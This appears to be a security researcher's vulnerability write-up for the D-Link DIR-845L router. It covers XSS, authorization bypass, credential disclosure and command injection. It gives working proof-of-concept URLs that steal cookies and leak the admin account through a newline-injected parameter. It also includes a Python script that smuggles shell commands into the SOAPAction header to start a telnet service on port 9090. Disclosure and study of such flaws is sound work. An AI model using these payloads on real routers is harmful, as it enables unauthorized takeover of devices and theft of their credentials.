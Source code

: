 # DIR-845L Vulnerabilities

## Summary

**Vendor** : D-Link

**Product** : DIR-845L Router

**Firmware Link** : You can download firmware at ([https://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=146&amp;model=DIR-845L](https://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=146&model=DIR-845L))![1712906917761](image/poc/1712906917761.png)

**emulate firmware by using FirmAE([https://github.com/pr0v3rbs/FirmAE](https://github.com/pr0v3rbs/FirmAE))**

### Vulnerabilities Summary

+ **XSS**
+ **Permission bypass**
+ **Information disclosure**
+ **Command injection**

### XSS

+ /htdocs/webinc/js/bsc_sms_inbox.php line: 17
  + var get_Treturn = '`<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';`
+ The parameter **$_GET["Treturn"]** has no filter.So the poc:
  + http://192.168.0.1/bsc_sms_inbox.php?Treturn=1';alert(document.cookie)![1712899623187](image/poc/1712899623187.png)
+ /htdocs/webinc/js/info.php line:27 -30 same problem poc:
  + http://192.168.0.1/info.php?RESULT=",msgArray);alert(document.cookie);//![1712899687559](image/poc/1712899687559.png)

### Permission bypass

+ /htdocs/web/getcfg.php line:83-94
+ ```php
  function is_power_user()
  {
  	if($_GLOBALS["AUTHORIZED_GROUP"] == "")
  	{
  		return 0;
  	}
  	if($_GLOBALS["AUTHORIZED_GROUP"] < 0)
  	{
  		return 0;
  	}
  	return 1;
  }
  ```
+ We can see the `$_GLOBALS["AUTHORIZED_GROUP"]` need to be greater than 0 and not a null.

  Phpcgi is a symbolic link to cgibin. Phpcgi is responsible for processing requests to .php, .asp and .txt pagesIt can be 	through URL, HTTP head or POST request sent by body data analysis.The phpcgi will create a long string, and the string will be treated as a series of key value pairs, and are used in `$_GET, $_POST and $_SERVER` dictionary and PHP script variable.Nevertheless, if a request is crafted in a proper way, an attacker can easily bypass authorization.

  Each of the key values pairs is encoded in the following form: _TYPE_KEY = VALUE, where TYPE can be GET, POST, or SERVER. Next, the key value pairs are connected using the branch character '\n'. In this way, we can build a packet by itself to bypass some permission validation.Such like this:

`	xxx=%0a_POST_AUTHORIZED_GROUP%3d1`

### Information disclosure

+ /htdocs/web/getcfg.php line:94-147/htdocs/web/web/web.php line：94-147
  ```php
  if ($_POST["CACHE"] == "true")
  {
  	echo dump(1, "/runtime/session/".$SESSION_UID."/postxml");
  }
  else
  {
  	if(is_power_user() == 1)
  	{
  		/* cut_count() will return 0 when no or only one token. */
  		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
  		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
  		$SERVICE_INDEX = 0;
  		while ($SERVICE_INDEX < $SERVICE_COUNT)
  		{
  			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
  			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
  			if ($GETCFG_SVC!="")
  			{
  				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
  				/* GETCFG_SVC will be passed to the child process. */
  				if (isfile($file)=="1")
  				{
  					if(get("", "/runtime/device/sessions_privatekey")==1)
  					{
  						AES_Encrypt_DBnode($GETCFG_SVC, "Encrypt");
  						dophp("load", $file);
  						AES_Encrypt_DBnode($GETCFG_SVC, "Decrypt");
  					}
  					else
  					{	dophp("load", $file);}
  				}
  			}
  			$SERVICE_INDEX++;
  		}
  	}
  	else
  	{
  		/* not a power user, return error message */
  		echo "\t<result>FAILED</result>\n";
  		echo "\t<message>Not authorized</message>\n";
  	}
  }
  ```
+ We can see `dophp("load", $file)`, the function like a `include()` .
+ The variable `$file`  is made up of `$GETCFG_SVC`, then `$GETCFG_SVC` comes from `$_POST["SERVICES"]`, there is also no filter,so we can control the variable `$file` , and the permission validation is_power_user() can be bypassed by last trick. In this way,we can include any other php scripts to get some important informations,such like DEVICE.ACCOUNT.xml.php, it returns a username and password to a router,then we can login in the router.
+ poc
  + http://192.168.0.1/getcfg.php?a=%0a_POST_SERVICES%3DDEVICE.ACCOUNT%0aAUTHORIZED_GROUP%3D1
  + response(password is empty)
  + ![1712900106005](image/poc/1712900106005.png)

### Command injection

+ vlun in hnap_main()func
  + v0 = strrchr("http://purenetworks.com/HNAP1/GetDeviceSettings", 47);
  + Can be noticed, however, STRSTR used in string check, which suggests that the SOAPAction header just includes the http://purenetworks.com/HNAP1/GetDeviceSettings string, can through the inspection, to bypass the authentication.
    So, if SOAPAction header contains the string http://purenetworks.com/HNAP1/GetDeviceSettings, The code resolves the name of the Action (such as GetDeviceSettings) from the request header and removes the double quotation marks at the end of the string
+ also could cause CSRF but command injection is critical
+ poc when it posted,it will open telnet service on port 9090
+ ```python
  import socket
  import struct

  buf = "POST /HNAP1/ HTTP/1.0\r\nHOST: 192.168.0.1\r\nUser-Agent: test\r\nContent-Length: 1\r\nSOAPAction:http://purenetworks.com/HNAP1/GetDeviceSettings/" + ';echo "success" > mytest.php;telnetd -p 9090;test\r\n' + "1\r\n\r\n"

  print "[+] sending buffer size", len(buf)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(("192.168.0.1", 80))
  s.send(buf)
  ```
+ ![1712902459101](image/poc/1712902459101.png)
